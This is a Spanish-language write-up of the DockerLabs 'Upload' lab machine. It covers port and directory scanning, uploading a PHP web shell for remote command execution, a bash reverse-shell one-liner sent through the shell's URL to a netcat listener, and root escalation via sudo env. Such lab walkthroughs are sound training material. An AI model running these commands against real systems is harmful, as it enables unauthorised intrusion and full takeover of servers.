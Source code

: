 # [Upload](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con `bash auto_deploy.sh upload.tar` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con `ping -c 1 172.17.0.2`<br>
`-c 1` ⮞ solo lo repite una vez
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/dcfa4972-3c0f-4869-a4e9-c3f61e9f0a32)
<br>

Ahora vamos con el reconocimiento de nmap `nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk) <br>
<br>

Podemos ver los resultados en el archivo grepeable haciendo `cat allPorts`, observamos tan solo está abierto el puerto **80**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/50b99ded-2fda-421a-aa36-022f3ee61bbf)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP como URL. Nos encontramos con un panel el cual nos permite subir un archivo.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/e1845ad2-b086-49ea-97c4-8c59c27221e2)

<br>

Lo que debemos hacer ahora es ver si existe el directorio donde se estarían subiendo los archivos. Para ello haremos un fuzzing gracias a gobuster con el siguiente comando: `gobuster dir -w /home/kali/WordLists/directory-medium -u http://172.17.0.2 -x txt,sql,py,js,php,html` y nos reportará lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/bef54253-3e1a-4c14-8ad5-78ed616d8169)

<br>

Listo, hemos encontrado el directorio `/uploads` en el cual se estarían subiendo los archivos a través del panel de `Upload File`. Por lo que podríamos hacer ahora es ver si podemos subir un archivo `cmd.php` el cual nos permita la Remote Code Execution (RCE), el contenido del archivo sería el siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/e3bb76bd-783b-4aee-ae92-0d3e57220036)

<br>

Probamos a subir el archivo `cmd.php`, y nos dice lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/3362fa1e-967c-40b9-9158-1dcf97456867)

<br>

Por lo cual habríamos logrado la Ejecución Remota de Comandos, nos dirigimos al directorio `/uploads` y observamos que se ha subido el archivo `cmd.php`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/9617187a-0a47-4504-a647-45f4bb053150)

<br>

Y ahora pasándole como parámetro a `cmd` el comando que queremos ejecutar en este caso `id`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/12059ea4-596f-44ce-a2e9-f9925a576091)

<br>

Por lo que ahora nos mandaríamos una [revshell](https://www.revshells.com/). En primer lugar, nos ponemos en escucha en un puerto poniendo en la terminal lo siguiente `nc -nlvp 443`, y después escribiendo lo siguiente en el buscador `http://172.17.0.2/uploads/cmd.php?cmd=bash -c'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, recibiríamos la revshell: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/de8139bf-761a-4e44-9793-702d6adc7725)

<br>
<br>

## Escalada de Privilegios

Comprobamos que hemos podido ingresar a la Máquina Víctima como **www-data** para comprobarlo hacemos `whoami`.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/8cff1944-b7af-49b1-bab7-a72271f84825)

<br>

Si ejecutamos `sudo -l` podemos ver que podemos correr `/usr/bin/env` como `root` sin proporcionar contraseña.<br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/07208f3b-6bda-4f5e-a1b5-a1d02b3fe87c)

<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de sudo en env, y nos encontramos con lo siguiente `sudo env /bin/sh'`.
<br>

A continuación probaremos a ejecutar dicho comando adaptándolo que sería `sudo -u root /usr/bin/env /bin/bash`.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/89e33e11-4355-4083-aecd-b20aa85bd135)
<br>

Y listo ya seríamos root!!
